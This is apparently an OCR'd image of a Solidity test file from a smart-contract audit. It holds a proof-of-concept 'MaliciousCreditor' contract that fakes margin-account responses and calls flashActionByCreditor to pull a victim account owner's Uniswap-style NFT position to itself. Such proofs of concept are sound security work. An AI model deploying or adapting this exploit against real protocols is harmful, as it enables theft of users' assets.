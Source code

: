 ```solidity
        (address[] memory assets, uint256[] memory ids, uint256[] memory amounts) = proxyAccount.generateAssetData();
        assertEq(assets[0], address(NONFUNGIBLE_POSITION_MANAGER));
        assertEq(ids[0], tokenId);
        assertEq(amounts[0], 1);
    }
}

contract MaliciousCreditor {
    address public riskManager;

    constructor(address riskManager_) {
        // Set the risk manager.
        riskManager = riskManager_;
    }

    function openMarginAccount(uint256 version)
        public
        returns (bool success, address numeraire_, address liquidator_, uint256 minimumMargin_)
    {
        return (true, 0x50c5725949A6F0c72E6C4a641F24049A917DB0Cb, address(0), 0); //dai
    }

    function doFlashActionByCreditor(address targetAccount, uint256 tokenId, address nftMgr) public {
        ActionData memory withdrawData;
        IPermit2.PermitBatchTransferFrom memory permit;
        bytes memory signature;
        bytes memory actionTargetData;

        ActionData memory transferFromOwnerData;
        transferFromOwnerData.assets = new address[](1);
        transferFromOwnerData.assets[0] = nftMgr;
        transferFromOwnerData.assetIds = new uint256[](1);
        transferFromOwnerData.assetIds[0] = tokenId;
        transferFromOwnerData.assetAmounts = new uint256[](1);
        transferFromOwnerData.assetAmounts[0] = 1;
        transferFromOwnerData.assetTypes = new uint256[](1);
        transferFromOwnerData.assetTypes[0] = 1;

        bytes memory actionData = abi.encode(withdrawData, transferFromOwnerData, permit, signature, actionTargetData);

        AccountV1(targetAccount).flashActionByCreditor(address(this), actionData);
    }

    function executeAction(bytes memory actionData) public returns (ActionData memory) {
        ActionData memory withdrawData;
        return withdrawData;
    }

    function getOpenPosition(address) public pure returns (uint256) {
        return 0;
    }

    function onERC721Received(address, address, uint256, bytes calldata) public pure returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```
